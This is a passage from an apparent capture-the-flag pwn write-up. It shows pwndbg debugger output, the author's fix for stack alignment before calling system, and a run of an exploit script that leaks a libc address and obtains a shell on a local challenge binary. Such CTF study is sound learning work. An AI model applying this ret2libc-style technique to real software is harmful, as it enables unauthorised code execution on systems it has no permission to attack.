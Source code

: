 ```asm wrap=false showLineNumbers=false
06:0030│-050   0x7fff23b283c8 ◂— 0x280
07:0038│-048   0x7fff23b283d0 —▸ 0x7fff23b283e0 —▸ 0x2111d2a0 ◂— 'Goodbye\n-------------------------------------------------\n'
────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────
 ► 0   0x7ee8ba45843b do_system+363
   1              0x1 None
   2              0x0 None
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```
But running this , we could not get the shell. since the stack is not alliged. so, after some thinking and some advise, I tried to calling main one time before calling before sending the payload to call the system.
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ python sol.py                                                                                                                             3.13.3  20:20 
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/libc6_2.39-0ubuntu8.4_amd64.so'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
[+] Starting local process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc_patched': pid 151910
0x7a588a287be0
puts lib addr 0x87be0
0x7a588a200000
121
[*] Switching to interactive mode

Enter password:
Welcome
---------------------------------------------------------
Today's news: Lexington High School starts their 5th CTF!
---------------------------------------------------------
Goodbye
$ id
uid=1000(hyder) gid=984(users) groups=984(users),150(wireshark),986(uucp),996(audio),998(wheel),1001(usb)
$  
```
yea , got the shell 😃.

